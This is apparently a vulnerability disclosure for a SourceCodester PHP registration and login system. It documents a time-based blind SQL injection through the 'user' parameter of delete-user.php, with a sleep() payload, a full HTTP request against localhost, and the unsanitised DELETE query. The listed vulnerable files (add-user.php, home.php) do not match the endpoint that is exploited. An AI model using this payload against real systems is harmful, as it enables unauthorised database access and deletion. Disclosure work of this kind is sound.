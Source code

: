## User Registration and Login System by rems has SQL Injection (Time-based Blind SQLi)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html



dbname = registration_login_db

Vulnerability File: /endpoint/add-user.php ;/home.php


[+] payload: endpoint/delete-user.php?user=(select(0)from(select(sleep(10)))v)/*'%2B(select(0)from(select(sleep(10)))v)%2B'"%2B(select(0)from(select(sleep(10)))v)%2B"*/

```
GET /endpoint/delete-user.php?user=(select(0)from(select(sleep(10)))v)/*'%2B(select(0)from(select(sleep(10)))v)%2B'"%2B(select(0)from(select(sleep(10)))v)%2B"*/ HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

```

1. sleep(10)
![Alt text](image-2.png)

2. sleep(15)
![Alt text](image-3.png)

Causes of vulnerabilities：

Insufficient parameter filtering for the user led to time-based blind injection.

```
$query = "DELETE FROM `tbl_user` WHERE `tbl_user_id` = '$user'";
```
SQL injection persists due to the incorrect use of prepare statements in the endpoint\delete-user.php line 9.